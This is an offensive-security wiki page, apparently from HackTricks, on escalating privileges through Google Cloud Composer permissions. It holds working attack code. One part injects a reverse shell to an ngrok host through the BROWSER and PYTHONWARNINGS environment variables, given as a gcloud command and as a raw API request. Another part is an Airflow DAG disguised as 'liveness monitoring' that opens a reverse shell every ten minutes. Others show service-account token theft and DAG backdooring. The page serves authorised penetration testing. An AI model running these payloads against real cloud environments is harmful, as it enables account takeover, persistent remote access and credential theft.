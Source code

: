# GCP - Composer Privesc

{{#include ../../../banners/hacktricks-training.md}}

## composer

More info in:

{{#ref}}
../gcp-services/gcp-composer-enum.md
{{#endref}}

### `composer.environments.create`

It's possible to **attach any service account** to the newly create composer environment with that permission. Later you could execute code inside composer to steal the service account token.

```bash
gcloud composer environments create privesc-test \
  --project "${PROJECT_ID}" \
  --location europe-west1 \
  --service-account="${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com"
```

More info about the exploitation [**here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/i-composer.environmets.create.sh).

### `composer.environments.update`

It's possible to update composer environment, for example, modifying env variables:

```bash
# Even if it says you don't have enough permissions the update happens
gcloud composer environments update \
    projects/<project-id>/locations/<location>/environments/<composer-env-name> \
    --update-env-variables="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/19990 0>&1' & #%s" \
    --location <location> \
    --project <project-id>

# Call the API endpoint directly
PATCH /v1/projects/<project-id>/locations/<location>/environments/<composer-env-name>?alt=json&updateMask=config.software_config.env_variables HTTP/2
Host: composer.googleapis.com
User-Agent: google-cloud-sdk gcloud/480.0.0 command/gcloud.composer.environments.update invocation-id/826970373cd441a8801d6a977deba693 environment/None environment-version/None client-os/MACOSX client-os-ver/23.4.0 client-pltf-arch/arm interactive/True from-script/False python/3.12.3 term/xterm-256color (Macintosh; Intel Mac OS X 23.4.0)
Accept-Encoding: gzip, deflate, br
Accept: application/json
Content-Length: 178
Content-Type: application/json
X-Goog-Api-Client: cred-type/sa
Authorization: Bearer [token]
X-Allowed-Locations: 0x0

{"config": {"softwareConfig": {"envVariables": {"BROWSER": "/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/1890 0>&1' & #%s", "PYTHONWARNINGS": "all:0:antigravity.x:0:0"}}}}
```

TODO: Get RCE by adding new pypi packages to the environment

### Download Dags

Check the source code of the dags being executed:

```bash
mkdir /tmp/dags
gcloud composer environments storage dags export --environment <environment> --location <loc> --destination /tmp/dags
```

### Import Dags

Add the python DAG code into a file and import it running:

```bash
# TODO: Create dag to get a rev shell
gcloud composer environments storage dags import --environment test --location us-central1 --source /tmp/dags/reverse_shell.py
```

Reverse shell DAG:

```python:reverse_shell.py
import airflow
from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from datetime import timedelta

default_args = {
    'start_date': airflow.utils.dates.days_ago(0),
    'retries': 1,
    'retry_delay': timedelta(minutes=5)
}

dag = DAG(
    'reverse_shell',
    default_args=default_args,
    description='liveness monitoring dag',
    schedule_interval='*/10 * * * *',
    max_active_runs=1,
    catchup=False,
    dagrun_timeout=timedelta(minutes=10),
)

# priority_weight has type int in Airflow DB, uses the maximum.
t1 = BashOperator(
    task_id='bash_rev',
    bash_command='bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/14382 0>&1',
    dag=dag,
    depends_on_past=False,
    priority_weight=2**31 - 1,
    do_xcom_push=False)
```

### Write Access to the Composer bucket

All the components of a composer environments (DAGs, plugins and data) are stores inside a GCP bucket. If the attacker has read and write permissions over it, he could monitor the bucket and **whenever a DAG is created or updated, submit a backdoored version** so the composer environment will get from the storage the backdoored version.

Get more info about this attack in:

{{#ref}}
gcp-storage-privesc.md
{{#endref}}

### Import Plugins

TODO: Check what is possible to compromise by uploading plugins

### Import Data

TODO: Check what is possible to compromise by uploading data

{{#include ../../../banners/hacktricks-training.md}}





